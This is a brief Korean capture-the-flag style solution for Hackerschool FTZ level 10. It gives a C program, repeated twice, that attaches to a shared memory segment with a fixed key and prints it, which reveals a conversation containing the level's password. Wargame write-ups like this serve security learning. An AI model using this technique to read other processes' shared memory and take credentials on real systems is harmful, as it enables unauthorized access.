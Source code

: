 Hackerschool FTZ level10
===
hint는 공유메모리를 보라는 뜻인데 

이것을 c코드로 짜면 

~~~c
#include<stdio.h>
#include<sys/shm.h>
#include<sys/ipc.h>
#include<sys/types.h>

int main()
{
        int shmid;
        char* shared_memory;
        shmid = shmget(7530,1024,0666);
        shared_memory = shmat(shmid,NULL,0);
        printf("shared_memory is : %s\n",shared_memory);
        shmdt(shared_memory);
        return 0;
}

~~~

가된다 
>shmget은 공유메모리를 생성
>
>shmat은공유메모리를 프로세스에 첨부
>
>shmdt는공유메모리 분리이다.

이코드를 실행하면 대화내용이 보이며 패스워드가 보인다,
~~~c
#include<stdio.h>
#include<sys/shm.h>
#include<sys/ipc.h>
#include<sys/types.h>

int main()
{
        int shmid;
        char* shared_memory;
        shmid = shmget(7530,1024,0666);
        shared_memory = shmat(shmid,NULL,0);
        printf("shared_memory is : %s\n",shared_memory);
        shmdt(shared_memory);
        return 0;
}
~~~

